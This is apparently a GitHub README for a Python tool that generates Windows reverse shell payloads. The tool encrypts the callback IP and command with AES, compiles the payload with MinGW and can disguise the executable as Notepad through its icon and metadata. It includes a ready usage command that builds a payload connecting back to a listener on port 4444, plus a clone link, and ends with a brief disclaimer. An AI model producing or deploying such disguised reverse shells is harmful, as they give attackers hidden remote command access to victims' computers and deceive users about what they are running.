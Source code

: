 # 🛡️ AES Encrypted Payload Generator

This tool generates a Windows reverse shell payload with **AES-encrypted IP and command values**, compiles it with optional **Notepad disguise**, and supports automatic cleanup.

---

## ⚙️ Features

- 🔐 AES (ECB mode) encryption for sensitive data
- 🧩 Dynamic payload generation in C
- 🪟 Native Windows API usage (with manual `GetProcAddress` resolution)
- 🎭 Optional Notepad spoofing (icon + metadata)
- 🛠️ Easy cross-compilation via MinGW (Linux)

---

## 🚀 Usage

### Basic Example
```bash
python3 payload_gen.py --ip 192.168.1.100 --port 4444 --notepad
```

### Arguments

**--ip** : IP address of the reverse shell listener (required).
**--port** : TCP port for the connection (default: 49557).
**--cmd** : Command to execute (default: cmd.exe).
**--notepad** : Mimic Notepad metadata and icon.
**--keep** : Keep temporary files (.c, .rc, .res) after building.

---

## Download
```bash
git clone https://github.com/WisePlace/Payload-Generator.git
```

---

## Disclaimer

**This project is provided strictly for educational and ethical security research purposes.
Unauthorized use against third-party systems is illegal. You are solely responsible for how you use this code.**
